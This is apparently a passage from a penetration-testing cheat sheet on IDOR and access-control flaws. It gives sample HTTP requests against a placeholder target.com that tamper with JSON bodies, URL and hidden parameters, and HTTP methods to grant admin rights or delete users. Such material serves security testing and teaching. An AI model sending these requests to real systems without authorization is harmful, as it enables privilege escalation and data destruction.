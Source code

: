 ### Blind IDOR Testing
```http
GET /api/user/checkAccess?resource_id=789 HTTP/1.1
Host: target.com
```

---

## Parameter Manipulation

### JSON Payload Tampering
```http
PATCH /api/users/123 HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "id": "456",
  "permissions": ["read", "write", "delete"]
}
```

### URL Parameter Tampering
```http
GET /api/user?account_id=456&action=delete HTTP/1.1
Host: target.com
```

### Hidden Parameter Discovery
```http
POST /updateSettings HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

user_id=456&is_admin=true
```

---

## HTTP Method Manipulation

### GET to POST Conversion
```http
POST /api/user/delete/123 HTTP/1.1
Host: target.com
```

### PUT Method Exploitation
```http
PUT /api/users/456/permissions HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "permissions": ["admin"]
}
```
